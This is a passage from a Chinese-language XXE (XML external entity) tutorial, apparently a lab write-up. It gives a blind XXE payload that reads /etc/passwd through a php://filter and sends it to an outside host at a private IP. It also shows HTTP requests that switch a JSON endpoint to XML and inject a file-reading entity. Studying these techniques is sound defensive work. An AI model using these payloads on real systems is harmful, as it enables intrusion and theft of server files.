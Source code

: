问题2：

但是这样做行不通，原因是不能在实体定义中引用参数实体，即有些解释器不允许在内层实体中使用外部连接，无论内层是一般实体还是参数实体。
```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE convert [
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=file:///etc/passwd">
<!ENTITY % int "<!ENTITY &#37; send SYSTEM 'http://192.168.137.131:9999?p=%file;'>">
%send;]>
```
**解决方案：**将嵌套的实体声明放入到一个外部文件中，这里一般是放在攻击者的服务器上，这样做可以规避错误。

**新的利用：**
所以要想更进一步的利用我们不能将眼光局限于 file 协议，我们必须清楚地知道在何种平台，我们能用何种协议
如图所示:
![在这里插入图片描述](https://img-blog.csdnimg.cn/20200222114956235.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2RhaWRlMjAxMg==,size_16,color_FFFFFF,t_70)

**实验三、JSON content-type XXE**

正如我们所知道的，很多web和移动应用都基于客户端-服务器交互模式的web通信服务。不管是SOAP还是RESTful，一般对于web服务来说，最常见的数据格式都是XML和JSON。尽管web服务可能在编程时只使用其中一种格式，但服务器却可以接受开发人员并没有预料到的其他数据格式，这就有可能会导致JSON节点受到XXE（XML外部实体）攻击
原始请求和响应：
```html
HTTP Request:
POST /netspi HTTP/1.1
Host: someserver.netspi.com
Accept: application/json
Content-Type: application/json
Content-Length: 38
{"search":"name","value":"netspitest"}

HTTP Response:
HTTP/1.1 200 OK
Content-Type: application/json
Content-Length: 43
{"error": "no results for name netspitest"}
```
现在我们尝试将 Content-Type 修改为 application/xml
进一步请求和响应：
```html
HTTP Request:
POST /netspi HTTP/1.1
Host: someserver.netspi.com
Accept: application/json
Content-Type: application/xml
Content-Length: 38
{"search":"name","value":"netspitest"}

HTTP Response:
HTTP/1.1 500 Internal Server Error
Content-Type: application/json
Content-Length: 127
{"errors":{"errorMessage":"org.xml.sax.SAXParseException: XML document structures must start and end within the same entity."}}
```
可以发现服务器端是能处理 xml 数据的，于是我们就可以利用这个来进行攻击
最终的请求和响应：
```xml
HTTP Request:
POST /netspi HTTP/1.1
Host: someserver.netspi.com
Accept: application/json
Content-Type: application/xml
Content-Length: 288
<?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE netspi [<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
```